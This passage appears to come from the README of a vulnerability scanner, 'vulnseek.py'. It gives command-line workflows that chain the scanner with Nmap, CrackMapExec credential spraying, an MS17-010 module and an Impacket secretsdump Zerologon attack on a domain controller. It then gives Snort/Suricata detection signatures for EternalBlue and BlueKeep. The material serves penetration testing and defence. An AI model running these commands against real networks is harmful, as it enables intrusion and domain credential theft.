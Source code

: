 ### With Nmap
```bash
# 1. Initial port scan
nmap -p 445,3389,135 192.168.1.0/24 -oG - | \
  grep "/open/" | cut -d' ' -f2 > live_hosts.txt

# 2. VulnSeek vulnerability scan
./vulnseek.py -f live_hosts.txt -m

# 3. Detailed enumeration
nmap -A -sV -p- -iL vulnlist.txt
```

### With CrackMapExec
```bash
# 1. Find vulnerable systems
./vulnseek.py

# 2. Test credentials
crackmapexec smb vulnlist.txt -u administrator -p passwords.txt

# 3. Exploit with valid creds
crackmapexec smb 192.168.1.10 -u admin -p 'P@ssw0rd' \
  -M ms17-010
```

### With Impacket
```bash
# 1. Scan for Zerologon
./vulnseek.py --full -m | grep Zerologon

# 2. Exploit with Impacket scripts
python3 secretsdump.py -no-pass DC01\$@192.168.1.10

# 3. Extract domain credentials
# After successful Zerologon exploitation
```

## Detection & Defense

### Detection Signatures

**Network IDS (Snort/Suricata)**:
```
# EternalBlue exploitation attempt
alert tcp any any -> $HOME_NET 445 (
    msg:"ET EXPLOIT MS17-010 SMB Remote Code Execution";
    flow:to_server,established;
    content:"|FF|SMB|75 00 00 00 00|";
    content:"|00 4A 00 00 00 00 00|";
    sid:2024218;
)

# BlueKeep exploitation
alert tcp any any -> $HOME_NET 3389 (
    msg:"ET EXPLOIT CVE-2019-0708 BlueKeep RDP Exploit";
    flow:to_server,established;
    content:"|03 00|";  # RDP Connection Request
    threshold:type threshold, track by_src, count 10, seconds 60;
    sid:2028833;
)

# Zerologon exploitation
```